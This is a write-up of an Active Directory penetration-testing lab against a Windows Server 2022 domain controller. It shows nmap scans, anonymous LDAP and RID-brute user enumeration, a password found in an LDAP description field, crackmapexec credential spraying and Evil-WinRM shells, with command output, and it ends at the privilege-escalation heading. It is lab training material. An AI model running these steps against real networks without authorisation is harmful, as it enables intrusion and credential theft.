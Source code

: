 # Active Directory Penetration Testing Lab
This project simulates a real-world internal penetration test in a controlled lab environment. The goal is to compromise a Windows Server 2022 Domain Controller and Internal Network using a Kali Linux attacker machine through enumeration, exploitation, and post-exploitation techniques.

Project Summary

- **Attacker Machine:** Kali Linux
- **Target Machine:** Windows Server 2022 (Active Directory Domain Controller)
- **Domain Name:** `orb.corp0`
- **Objective:** Gain initial access, enumerate the domain, escalate privileges, and extract sensitive data (e.g., password hashes, domain admin credentials).
- **Scope:** Internal black-box test — attacker has direct network access but no initial credentials.

Lab Architecture

| Machine          | Role                            | 
|------------------|---------------------------------|
| Kali Linux       | Attacker                        | 
| Windows Server   | Domain Controller (DC)          | 
| Windows Server   | Internal DC                     |         

## 1. Information Gathering

### Nmap Scan

> **Tool:** `nmap`  
> **Purpose:** Identify open ports and running services on the target system.

```bash
nmap -sCV -p- 192.168.50.129

PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Simple DNS Plus
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP
445/tcp   open  microsoft-ds  Windows SMB file sharing
464/tcp   open  kpasswd5      Kerberos password change
593/tcp   open  ncacn_http    RPC over HTTP 1.0
636/tcp   open  tcpwrapped
3268/tcp  open  ldap          Global Catalog LDAP
3269/tcp  open  tcpwrapped
5357/tcp  open  http          Microsoft HTTPAPI httpd 2.0
5985/tcp  open  http          Windows Remote Management (WinRM)
9389/tcp  open  mc-nmf        .NET Message Framing
47001/tcp open  http          Microsoft HTTPAPI httpd 2.0
```
> **Purpose:** Identify open ports and running services on the target system.

## 2. Enumeration

### LDAP Enumeration with NetExec (nxc)

> **Tool:** `nxc`

> **Purpose:** Perform anonymous LDAP queries to extract usernames and domain structure

```bash
nxc ldap 192.168.50.129 -u '' -p '' --users

[*] Total records returned: 67
DC=orb,DC=corp
CN=Administrator,CN=Users,DC=orb,DC=corp
CN=Guest,CN=Users,DC=orb,DC=corp
CN=krbtgt,CN=Users,DC=orb,DC=corp
CN=alice wonderland,CN=Users,DC=orb,DC=corp  
CN=bob builder,CN=Users,DC=orb,DC=corp
CN=jerry cantrell,CN=Users,DC=orb,DC=corp
CN=kurt cobain,CN=Users,DC=orb,DC=corp 
CN=mssql_svc,CN=Users,DC=orb,DC=corp
CN=http_svc,CN=Users,DC=orb,DC=corp
CN=Floor,CN=Users,DC=orb,DC=corp
CN=IT,CN=Users,DC=orb,DC=corp
CN=HR,CN=Users,DC=orb,DC=corp
CN=Management,CN=Users,DC=orb,DC=corp
```
> **Success:** Anonymous access to LDAP allowed us to enumerate domain users and service accounts without credentials. 

### SMB Enumeration with NetExec RID Brute Force

> **Tool:** `nxc`

> **Purpose:** Enumerate RID values via SMB to uncover domain user accounts

```bash
nxc smb 192.168.50.129 -u 'anonymous' -p '' --rid-brute > domainusers.txt
1101: ORB\DnsAdmins (SidTypeAlias)
1102: ORB\DnsUpdateProxy (SidTypeGroup)
1103: ORB\alice.wonderland (SidTypeUser)
1104: ORB\bob.builder (SidTypeUser)
1105: ORB\jerry.cantrell (SidTypeUser)
1106: ORB\kurt.cobain (SidTypeUser)
1107: ORB\dana.scully (SidTypeUser)
1108: ORB\walter.white (SidTypeUser)
1109: ORB\james.bond (SidTypeUser)
1110: ORB\bruce.wayne (SidTypeUser)
```
> **Success:** Successfully enumerated valid domain users and groups using SMB anonymous access with RID brute-forcing

## 3. Exploitation 

Using the usernames previously enumerated, several attacks were launched to gain initial access and extract service account Kerberos tickets for offline password cracking.

### Technique 1: LDAP Description Disclosure

  > **Tool:** `ldapsearch`  
  > **Purpose:** Dump LDAP user attributes and look for password leaks or notes in the `description` field.
  
  ```bash
  ldapsearch -x -H ldap://192.168.50.129 -b "DC=orb,DC=corp" '(objectclass=person)' | grep -ia desc
  ```
  > **Results:**
  > **description:** 3edcxsw2#EDCXSW@
  > A cleartext password was found in the description field — likely a human error or documentation leak.
  
  ### Credentials Spraying
  > Used crackmapexec tool to test the discovered password against all enumerated usernames.
  ```bash
  crackmapexec smb 192.168.50.129 -u users.txt -p '3edcxsw2#EDCXSW@'
  
  [+] orb.corp\clark.kent:3edcxsw2#EDCXSW@ (Pwn3d!)
  ```
  
  >  Valid credentials discovered — clark.kent is a domain user.

### Shell Access via Evil-WinRM

```bash
evil-winrm -i 192.168.50.129 -u clark.kent -p '3edcxsw2#EDCXSW@'

*Evil-WinRM* PS C:\Users\clark.kent\Documents>
```
> Shell access gained on the Domain Controller as a low-privileged user.

### Technique 2: SMB Credentials Spraying Attack

  After enumerating valid usernames from LDAP and RID brute-forcing, credentials spraying attack was performed to discover weak passwords in use within the domain using a custom list of passwords. 
  
  ```bash
  ┌──(arllbartall㉿kali)-[~/Cyber/project1]
  └─$ crackmapexec smb 192.168.50.129 -u users.txt -p passwords.txt     
  SMB         192.168.50.129  445    DC               [*] Windows Server 2022 Build 20348 x64 (name:DC) (domain:orb.corp) (signing:True) (SMBv1:False)
  SMB         192.168.50.129  445    DC               [+] orb.corp\alice.wonderland:iloveyou
```
> A valid credential was discovered: alice.wonderland : iloveyou

### Shell Access using Evil-WinRM
```bash
  Info: Establishing connection to remote endpoint
  *Evil-WinRM* PS C:\Users\alice.wonderland\Documents> whoami
  orb\alice.wonderland
  *Evil-WinRM* PS C:\Users\alice.wonderland\Documents> 
```

> After acquiring two valid credentials, we proceeded to enumerate the orivileges the users have for potential privilege escalation.

### alice.wonderland
```bash
  *Evil-WinRM* PS C:\Users\alice.wonderland\Documents> whoami /priv

  PRIVILEGES INFORMATION
  ----------------------
  
  Privilege Name                Description                    State
  ============================= ============================== =======
  SeMachineAccountPrivilege     Add workstations to domain     Enabled
  SeChangeNotifyPrivilege       Bypass traverse checking       Enabled
  SeIncreaseWorkingSetPrivilege Increase a process working set Enabled
  *Evil-WinRM* PS C:\Users\alice.wonderland\Documents> 

```
After Compromising the two accounts, BloodHound was used to map the network and possible paths to further compromise the domain and possibly gain domain admin.


## 4. Privilege Escalation 
